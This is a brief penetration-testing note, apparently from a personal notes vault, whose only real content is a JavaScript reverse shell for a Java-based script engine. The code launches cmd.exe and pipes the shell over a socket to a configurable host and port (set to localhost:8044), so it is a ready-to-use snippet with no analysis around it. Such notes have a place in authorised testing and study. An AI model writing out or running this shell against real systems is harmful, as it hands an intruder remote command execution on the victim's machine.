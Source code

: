 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

javascript

Reverse Shell

```js
var host="localhost";
var port=8044;
var cmd="cmd.exe";
var p=new java.lang.ProcessBuilder(cmd).redirectErrorStream(true).start();
var s=new java.net.Socket(host,port);
var pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
var po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
while(pe.available()>0)so.write(pe.read());
while(si.available()>0)po.write(si.read());
so.flush();po.flush();java.lang.Thread.sleep(50);
try {p.exitValue();break;}catch (e){}};p.destroy();
s.close();
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
